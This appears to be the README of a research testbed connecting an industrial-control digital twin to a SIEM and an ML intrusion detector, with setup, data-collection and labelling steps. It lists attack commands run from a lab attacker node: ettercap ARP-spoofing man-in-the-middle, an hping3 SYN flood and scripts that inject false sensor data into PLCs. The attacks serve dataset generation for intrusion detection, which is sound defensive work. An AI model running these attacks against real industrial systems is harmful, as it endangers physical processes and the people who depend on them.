 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose are as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
    At this step, the script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is       normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and IDS in browser.
    Kibana port 5601 , IDS (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**NOTE**: All the required packages, softwares and libraries are included with Docker. No need of installing these separately.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node).
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

The collected dataset is stored as 'data.csv' in logs folder.

Automated labelling of the generated dataset is done in two steps: 

1) Run label.py script to label dataset based on threshold conditions (For false data injection and DoS)
2) Run label1.py after step 1 by passing 3 arguments (start_time, end_time and attack type). Results stored as 'labelled.csv' in logs folder.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (Command injection): Run the following script to launch this attack for x minutes.

    python attack_fdi.py <x>

**Attack scenario 2, 3, 4** (Network DoS MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (Network DoS TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1

**Note**: Attacks 6 till 23 are MitM attacks. Attacker node is placed b/w two nodes and ip forwarding enabled using the following commands.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// &
    echo 1 > /proc/sys/net/ipv4/ip_forward

**Attack scenario 6,7,8** (Naive Measurement Modification): Run the following commands for attacks 6, 7, 8 respectively.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH

**Attack scenario 9,10,11 (Calculated Measurement Modification +ve scaling) and Attack scenario 12,13,14 (Calculated Measurement Modification negative scaling)

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -

**Attack scenario 15,16,17 (Naive Measurement Modification)

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH

**Attack scenario 18,19,20 (Calculated Measurement Modification positive scaling) and Attack scenario 21,22,23 (Calculated Measurement Modification negative scaling)

    python attack_sensor_randomp.py PLC2
    python attack_sensor_randomp.py PLC3
    python attack_sensor_randomp.py BOTH
    python attack_sensor_randomn.py PLC2
    python attack_sensor_randomn.py PLC3
    python attack_sensor_randomn.py BOTH

**Running ML-based IDS**

Run ML_based IDS by running the Jupyter notebook ML_IDS.ipynb launched using IDS url. Results of IDS can be seen in 'IDS' dashboard in Kibana.

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
